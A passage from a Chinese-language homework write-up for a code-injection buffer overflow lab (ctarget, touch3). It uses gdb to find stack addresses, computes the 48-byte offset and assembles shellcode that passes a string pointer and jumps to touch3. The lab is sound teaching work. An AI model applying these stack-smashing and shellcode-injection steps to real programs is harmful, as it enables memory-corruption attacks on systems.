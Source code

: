 ```shell
(gdb) r -q
Starting program: /media/psf/Home/Documents/Documents_Mac/Basis of Computer Systems/homework4_target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, test () at visible.c:90
90      visible.c: 没有那个文件或目录.
(gdb) si
92      in visible.c
(gdb) p/x $rsp
$1 = 0x5561dca8
```

得到缓冲区起始地址为`0x5561dca8`。

其实也可以由`getbuf`缓冲区起始地址`0x5561dc78`推算而来：`getbuf`函数分配了`0x28`字节大小的内存，`0x5561dc78+0x28=0x5561dca0`即为返回值的起始地址，也就是我们经常利用的40字节之外的缓冲区溢出部分的起始地址，此部分为8字节大小空间，`0x5561dca0+0x8=0x5561dca8`就是`test`缓冲区的起始地址。

这样我们又可以发现，在输入的字符串的40+8=48字节之外，再输入即可重写以地址`0x5561dca8`为起始的部分——就是我们要传入的字符串的地址。

---

`touch3`对应的汇编语句：

```assembly
00000000004018fa <touch3>:
  ...
```

得到`touch3`的地址为`0x4018fa`。

---

和`level 2`类似，编写汇编代码（**注意末尾的空行**）并保存为`touch3.s`文件（字符串传参为地址）：

```assembly
mov    $0x5561dca8,%rdi    # string
push   $0x4018fa           # touch3
ret

```

汇编并反汇编：

```shell
gcc -c touch3.s
objdump -d touch3.o
```

得到输出如下：

```shell

touch3.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```
